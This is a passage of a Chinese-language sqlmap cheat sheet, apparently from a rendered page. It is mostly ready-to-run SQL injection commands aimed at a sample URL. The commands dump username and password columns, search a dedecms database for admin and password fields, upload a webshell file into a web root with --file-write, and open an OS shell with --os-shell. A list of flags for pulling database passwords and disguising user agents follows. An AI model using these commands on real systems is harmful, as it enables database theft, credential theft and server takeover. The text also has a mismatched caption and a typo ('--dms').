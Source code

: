 查询test数据库中有哪些表

sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3 -D test -T admin --columns

查询test数据库中admin表有哪些字段

sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3 -D test -T admin -C "username,password" --dump

dump出字段username与password中的数据

其他命令参考下面
从数据库中搜索字段

sqlmap -r "c:\tools\request.txt" --dbms mysql -D dedecms --search -C admin,password

在dedecms数据库中搜索字段admin或者password。

读取与写入文件

首先找需要网站的物理路径，其次需要有可写或可读权限。

--file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）

--file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）

--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径

##示例：
sqlmap -r "c:\request.txt" -p id --dbms mysql --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

使用shell命令：

sqlmap -r "c:\tools\request.txt" -p id --dms mysql --os-shell
接下来指定网站可写目录：

“E:\php\htdocs\dvwa”

####注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp_dirtree函数）

sqlmap详细命令：

--is-dba 当前用户权限（是否为root权限）

--dbs 所有数据库

--current-db 网站当前数据库

--users 所有数据库用户

--current-user 当前数据库用户

--random-agent 构造随机user-agent

--passwords 数据库密码

--proxy http://local:8080 --threads 10 (可以自定义线程加速) 代理

--time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）
——————————————————————————————————
Options（选项）：

